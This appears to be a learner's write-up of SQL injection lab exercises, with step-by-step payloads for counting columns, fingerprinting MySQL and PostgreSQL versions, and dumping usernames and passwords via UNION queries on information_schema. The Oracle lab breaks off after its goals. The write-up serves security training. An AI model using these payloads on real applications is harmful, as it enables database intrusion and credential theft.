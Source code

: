 SQL Injection - Product Category

End Goal - display the database version

Analysis:
(1) Find number of columns
' order by 3# -> internal server error

3 - 1 = 2

(2) Figure out which columns contain text 
' UNION SELECT 'a', 'a'#

(3) Output the version
' UNION SELECT @@version, NULL#
SELECT @@version 

8.0.23

### lab_5. SQL injection attack, listing the database contents on non-Oracle databases
End Goals:
- Determine the table that contains usernames and passwords
- Determine the relevant columns
- Output the content of the table
- Login as the administrator user

Analysis:
1. Find the number of columns
' order by 3-- -> Internal server error
3 - 1 = 2

2. Find the data type of the columns
' UNION select 'a', 'a'--
-> both columns accept type text

3. Version of the database
' UNION SELECT @@version, NULL-- -> not Microsoft
' UNION SELECT version(), NULL-- -> 200 OK
PostgreSQL 11.11 (Debian 11.11-1.pgdg90+1)

4. Output the list of table names in the database
' UNION SELECT table_name, NULL FROM information_schema.tables--
users_xacgsm

5. Output the column names of the table
' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name = 'users_xacgsm'--
username_pxqwui
password_bfvoxs

6. Output the usernames and passwords
' UNION select username_pxqwui, password_bfvoxs from users_xacgsm--
administrator


### lab_6. SQL injection attack, listing the database contents on Oracle
End Goals:
- Determine which table contains the usernames and passwords
- Determine the column names in table
- Output the content of the table
- Login as the administrator user 
